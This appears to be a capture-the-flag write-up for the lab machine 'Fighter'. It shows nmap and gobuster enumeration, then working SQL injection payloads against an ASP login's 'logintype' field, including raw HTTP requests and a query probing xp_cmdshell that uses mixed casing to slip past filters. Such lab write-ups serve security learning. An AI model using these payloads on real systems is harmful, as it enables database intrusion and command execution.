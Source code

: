 ### Fighter

#### keyword, xP_cMdsHeLl

gobuster  

#### information

Nmap 7.70 scan initiated Thu Mar 21 09:11:51 2019 as: nmap -sC -sV -oA nmap 10.10.10.72
Nmap scan report for 10.10.10.72
Host is up (0.37s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: StreetFighter Club

#### **look the website**

firefox http://10.10.10.72/

"  We're
currently redesigning our website streetfighterclub.htb for a
new 
modern look and functionality. The new site should be up and running
soon.
Meanwhile our<span style=color:red> "old" members site is still available for our registered </span>
members (p.s you know the link...)"

#### edit /etc/hosts

10.10.10.72 streetfighterclub.htb members.streetfighterclub.htb

#### **Enum the website**

```
 gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://members.streetfighterclub.htb/ -f

[+] Mode         : dir
[+] Url/Domain   : http://members.streetfighterclub.htb/
[+] Threads      0
/old/ (Status: 403)

```

http://members.streetfighterclub.htb/old/login.asp

###  LoginType hava sql injection 

 there has a sql inject in [logintype]()  , payload is 1+union+select+1,2,3,4,5,6--+-　number [5]()   is the result on the Email of responder.

```shell
POST /old/verify.asp HTTP/1.1
Host: members.streetfighterclub.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://members.streetfighterclub.htb/old/Login.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Cookie: ASPSESSIONIDQASQRDRR=ABEDGDHBGDKGADJOBEJGOOAB; Email=; Level=%2D1; Chk=3506; password=cGFzczJ3b3Jk; username=YWRtaW4%3D; ASPSESSIONIDQATQQCRR=GPPJKHHBICJCCJKHKDFJJHIC
Connection: close
Upgrade-Insecure-Requests: 1

username=admin&password=asdfasdf&logintype=1+union+select+1,2,3,4,5,6--+-&rememberme=ON&B1=LogIn

soft-IIS/8.5
Set-Cookie: Level=Ng%3D%3D; path=/
Set-Cookie: Email=NQ%3D%3D; path=/
Set-Cookie: Chk=2351; path=/
Set-Cookie: password=YXNkZmFzZGY%3D; expires=Fri, 20-Mar-2020 02:17:16 GMT; path=/
Set-Cookie: username=YWRtaW4%3D; expires=Fri, 20-Mar-2020 02:17:16 GMT; path=/
X-Powered-By: ASP.NET
Date: Thu, 21 Mar 2019 02:17:16 GMT
Connection: close
Content-Length: 132

<head><title>Object moved</title></head>

<body><h1>Object Moved</h1>This object may be found <a HREF="welcome.asp">here</a>.</body>
```

### check the xp_cmd shell 

username=admin&password=asdfasdf&logintype=1+union+select+1,2,3,4,(SELECT+CONVERT(INT,+ISNULL(value,+value_in_use))+AS+config_value+FROM++sys.configurations+WHERE++name+%3d+'xP_CmDsHeLl'),6--+-&rememberme=ON&B1=LogIn

remember <span style=color:red> xp_cmdshell to xP_CmDsHeLl </span>

that is good!